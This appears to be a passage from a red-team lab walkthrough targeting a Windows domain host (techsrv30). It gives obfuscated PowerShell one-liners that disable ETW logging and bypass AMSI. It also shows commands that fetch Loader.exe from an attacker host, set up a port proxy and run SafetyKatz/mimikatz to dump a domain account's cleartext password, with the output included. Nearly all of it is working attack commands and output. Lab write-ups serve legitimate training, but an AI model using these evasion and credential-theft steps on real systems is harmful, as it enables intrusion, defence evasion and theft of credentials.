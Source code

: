 - **Bypassing PowerShell Logging and AMSI for Evasion**

![techsrv30 | techservice #>](https://custom-icon-badges.demolab.com/badge/techsrv30-techservice%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`powershell`

`$ExecutionContext.SessionState.LanguageMode`:
```
FullLanguage
```

```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

- **Extract Credentials of `databaseagent` and `TECHSRV30$` from Memory on `techsrv30.tech.finance.corp`**

![HFS - Loader.exe, SafetyKatz.exe](learning_objective_07_hfs_loader_safetykatz.png)

![techsrv30 | techservice #>](https://custom-icon-badges.demolab.com/badge/techsrv30-techservice%20[%23>]-64b5f6?logo=windows11&logoColor=white)

`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe`

`netsh interface portproxy add v4tov4 listenport=1234 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1`

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe -args "token::elevate" "vault::cred /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # token::elevate📌

Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

596     {0;000003e7} 1 D 18459          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !📌
 * Process Token : {0;0028c0cb} 0 D 2727993     TECH\techservice        S-1-5-21-1325336202-3661212667-302732393-1109   (09g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2744954     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # vault::cred /patch📌

TargetName : Domain:batch=TaskScheduler:Task:{877E4326-BAD4-4516-A4B1-60C73F0EFDDA} / <NULL>
UserName   : TECH\databaseagent👤
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : CheckforSQLServer31-Availability🔑
```